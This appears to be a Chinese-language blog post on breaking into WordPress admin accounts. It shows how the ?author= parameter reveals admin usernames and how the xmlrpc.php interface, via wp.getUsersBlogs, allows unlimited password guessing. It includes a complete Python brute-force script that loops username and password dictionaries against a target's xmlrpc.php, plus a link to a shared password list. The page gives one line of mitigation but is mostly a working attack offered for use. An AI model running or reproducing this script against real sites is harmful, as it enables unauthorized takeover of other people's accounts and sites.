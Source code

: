首先要说一下，一个正常点的网站，你用暴力破解登录的话，都是几乎无法实现的，举个例子。
### 举个暴力破解QQ的例子：
	
> - 1.你暴力破解QQ密码，输入错误几次之后验证码也出来了。
> - 2.验证码的问题比较好搞，找个识图的代码，识别图片中的二维码，即可。继续破解。
> - 3.是的 二维码可以搞定，但是你输入错误次数超过30次之后，该账号24小时内再提交密码都无效了。

### 举个我自己亲测暴力破解wordpress站点管理员密码的例子：
我穷举wordpress 的账户密码，post到xxx.com/wp-admin.php上，结果：没几下我就发现网站打不开了。然后，用同事们的机器，也是打不开，我以为网站挂了，结果不是，我发现用3G网可以打开。看样wordpress直接屏蔽了我们的ip段，一个小时后又可以访问了。 所以我放弃了，对wp-admin.php的破解。

只能另辟蹊径。

----------
## 1.wordpress自带的 **author漏洞**。

wooyun曾经爆出的WordPress的一个bug，就是再主网址尾部追加/?author=index之后可以爆出user表中的id==index的账户名。
#  
比如： **http://xxx.com/?author?=1** 
查看网页源代码：
``` html
<html xmlns="http://www.w3.org/1999/xhtml">
<head>


    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>admin | 此处隐藏网站名</title>
	<!--  重点在这里 -->
``` 

比如： **http://xxx.com/?author?=2** 
查看网页源代码：
``` html
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta name="generator" content="WordPress 3.8.3" />
<meta name="robots" content="noodp,noydir" />

    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">


    <title>Nothing found for  ?author=2</title>
    <!--  重点在这里 -->
```
# 
ok，此处可以看出该站只有一个管理员 用户名是**admin**。
那么好了，我们暴力破解本来还需要猜用户名的，现在用户名不用猜了，只要猜密码，我们就省了很多事。

# 
## 2.wordpress自带的 **XMLRPC漏洞**。

wordpress官网对这个功能进行了解释：  [点击跳转到wordpress官网](http://codex.wordpress.org/XML-RPC_wp#wp.getUsersBlogs)
	
如下是我摘抄的一段：
# 
wp.getUsersBlogs

	检索用户的博客。
参数
	
	用户名的字符串
	字符串密码
返回值
	> - 数组
		 > - +    结构
	 - 布尔型 isAdmin
	 - 字符串 url
	 - 文章的 blogid 的字符串
	 - 字符串 blogName
	 - 字符串 xmlrpc

wp.getTags

	得到所有标记的列表。

...
...
...
# 
我就不在往下写了，下面的也是调用这个接口传递用户名，密码，传递其他参数用于获得一些数据的一些表，比如文章列表之类的。

从wordpress官网看其他的一些功能，可以看出这个xmlrpc应该是开放给客户端使用的。



# 
那么我们在wordpress主站地址后追加：**/xmlrpc.php**即可得到如下截图：
![](https://leanote.com/api/file/getImage?fileId=563cd1cb38f411249a000669)

**XML-RPC server accepts POST requests only**.
是告诉我们需要用post方式提交。

从这个文件名xmlrpc的命名来看，这里应该是提交xml格式的才对。
我们来试下模拟post提交，来验证我们的猜想：
# 
上图：
![](https://leanote.com/api/file/getImage?fileId=563cd1cb38f411249a00066b)

这里报了一个错误，说转换出错，很显然post提交不了。跟wordpress官网说的一样，这个接口需要提交xml格式的。

格式 的例子如下：
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
   <param><value>username</value></param>
   <param><value>password</value></param>
  </params>
</methodCall>
```
我试着在chrome里提交一下：
![](https://leanote.com/api/file/getImage?fileId=563cdfc138f41125df00074f)
这个接口已经走通了，为了测试这个接口如果出错不会被服务器拉黑ip，我刷新了20次，确定这个接口可用。终于放心了唉。

下面就是写个python程序，进行循环post xml进行验证了。


``` python

#  佛祖保留代码无bug 
'''
漏洞详情请查看：http://www.freebuf.com/articles/web/38861.html
'''
import urllib2
import re

def ReadMe():
    print """说明：
    1.在本文件同目录下新建usernames.txt、passwords.txt分别存入用户名、密码字典
    2.按提示输入WordPress站点(例如:www.freebuf.com)
    """

def GetUrl():
    urlinput=raw_input("请输入wordpress站点:")
    requrl="http://"+re.match(r"(http://)?(.*)",urlinput).expand('\g<2>')+"/xmlrpc.php"
    print "尝试利用:"+requrl
    return requrl
   
def Aviable(requrl):
    
    try:
        result = urllib2.urlopen(url=requrl).read()
    except urllib2.URLError:
        print "抱歉，此站点漏洞不可用"
        return False
    else :
        if result == "XML-RPC server accepts POST requests only.":
            print "\n该站点存在此漏洞,尝试破解中:"
            return True
        else :
            print "抱歉，此站点漏洞不可用"
            print "网页返回：\n    "+result
            return False
    
def Exploit():
    requrl=GetUrl()
    if Aviable(requrl) :
    #usernames.txt 文件中其实只有一个用户名，因为我们通过author漏洞获取到了管理的用户名。
        f_username=open("usernames.txt","r")
        f_password=open("passwords.txt","r")
        num=0
        Flag=0
        for name in f_username:
            if Flag == 1:
                break
            for key in f_password:
                if num % 10 == 0:
                    print "已尝试"+str(num)+"个"
                if len(key)<8:
                    continue #wordpress管理员密码长度最短是8  所以这里小于8的跳过
                reqdata='<?xml version="1.0" encoding="UTF-8"?><methodCall><methodName>wp.getUsersBlogs\
                        </methodName><params><param><value>'+ name + \
                        '</value></param><param><value>'+ key  +\
                        '</value></param></params></methodCall>'
                req = urllib2.Request(url=requrl,data=reqdata)
                result = urllib2.urlopen(req).read()
                num=num+1
                if "isAdmin" in result :
                    print "Got it !"
                    print "username :"+name+"password :"+key
                    Flag = 1
                    break
                    
                elif "faultString" and "403" in result :
                    continue 
                    
                else :
                    print "Unknown error"
        print "抱歉，在此字典中并未找到正确的密码"
        
if __name__ == '__main__' :
    ReadMe()
    Exploit()

```

# 
执行效果如下：

![](https://leanote.com/api/file/getImage?fileId=563cd4d638f411249a000681)



# 
wordpress不知道现在已经到了什么版本了，但是目前，这个漏洞还是存在的，避免这个漏洞方式很简单，关闭这个功能即可。
# 
PS：
	 补充点：只要xmlrpc这个漏洞在，暴力破解就是一定能成功，只是时间问题。
	 有些人觉得自己的字典不够全，我这里共享一个别人的密码集合：
[点击跳转](http://www.xdowns.com/soft/8/114/2012/Soft_88561.html)





